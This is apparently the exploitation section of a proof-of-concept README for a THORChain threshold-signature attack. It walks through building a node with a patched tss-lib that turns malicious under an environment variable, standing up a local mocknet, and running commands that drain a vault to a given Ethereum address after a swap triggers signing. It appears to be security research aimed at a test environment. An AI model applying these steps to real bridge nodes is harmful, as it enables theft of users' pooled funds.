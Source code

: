 ## Expliotaion
### Build
POC lib place at `./pkg/thorchain-tss-lib`. When environment variable `TSSPOC` is set, the node will become malicious node.
Changes applied to thornode and bifrost:
* Remove unnecssary chain BTC, BCH, AVAX, GAIA, LTC...
* Replace `github.com/binance-chain/tss-lib` with `./pkg/thorchain-tss-lib` in `thornode/go.mod`


### Steps
1. Deploy testnet environment thorchain, bifrost bridge, ethereum. Modify docker-compose.yml:
  * add environment `TSSPOC: "tsspoc"` to node cat in both `thornode-cat` and `bifrost-cat`
  * map file `malicious_params.txt` for containers `thornode-cat` and `bifrost-cat`: 
  ```
  services:
    bifrost-cat:
      ...
      environment:
        - TSSPOC: "tsspoc"
      volumes:
        /malicious_params.txt:/malicious_params.txt
      ...
  ```
Run the mocknet cluster: 5 thornode, 5 bifrost, 1 ethereum node

```bash
  make run-mocknet-cluster
```

2. Modify smoke python script `thornode/test/smoke` and bootstrap transaction in `thornode/test/smoke/data/smoke_test_transactions.json`
Run bootstrap scripts to set up the vault and tokens.

```bash 
  make bootstrap-mocknet
```
3. Run the exploitation: check the vault balances and drain the vault
```bash
cd web3-client
node index.js vault
node index.js drain 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf
```
open a thorchain client, make a swap to trigger threshold signing using `acc1`
```bash
make cli-mocknet
thornode tx thorchain deposit 50000000 THOR.RUNE SWAP:ETH.ETH:0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf --from=acc1 $TX_FLAGS 
```
